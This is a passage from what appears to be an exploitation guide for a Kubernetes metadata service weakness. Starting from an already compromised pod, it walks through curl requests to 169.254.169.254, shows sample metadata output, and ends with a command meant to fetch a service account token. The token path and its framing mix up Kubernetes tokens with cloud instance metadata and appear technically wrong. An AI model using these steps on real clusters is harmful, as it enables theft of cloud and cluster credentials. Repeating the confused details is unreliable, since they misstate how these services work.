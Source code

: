 ## 2. Validation and Exploitation Steps Section

This section details the steps to validate and exploit the Kubernetes Metadata Service vulnerability.

**1. Gain Access to a Pod:**

This documentation assumes you already have access to a pod.  This could be via an exploited web application vulnerability, SSH access to the node, or kubectl exec into the pod if you have sufficient RBAC permissions.

**2. Validate the Metadata Service Endpoint:**

This step confirms the existence and accessibility of the metadata service.

```bash
curl -s http://169.254.169.254/latest/meta-data/
```

*   **Explanation:** This command sends an HTTP GET request to the root endpoint of the metadata service (`169.254.169.254/latest/meta-data/`).
*   **Why:**  This checks if the metadata service is accessible from within the pod.
*   **Expected Output:** A list of available metadata endpoints, such as `instance-id`, `network`, `services`, `hostname`. An error message indicates the service is not accessible.

```
ami-id
ami-launch-index
ami-manifest-path
hostname
instance-id
instance-type
local-hostname
local-ipv4
mac
metrics/
network/
placement/
profile
public-hostname
public-ipv4
public-keys/
reservation-id
security-groups
services/
```

*   **How it contributes:** Verifies the existence of the metadata service and the ability to query it.

**3. Retrieve the Service Account Token Path:**

This step retrieves the path to the service account token within the pod's filesystem.

```bash
curl -s http://169.254.169.254/latest/meta-data/service-account/token
```
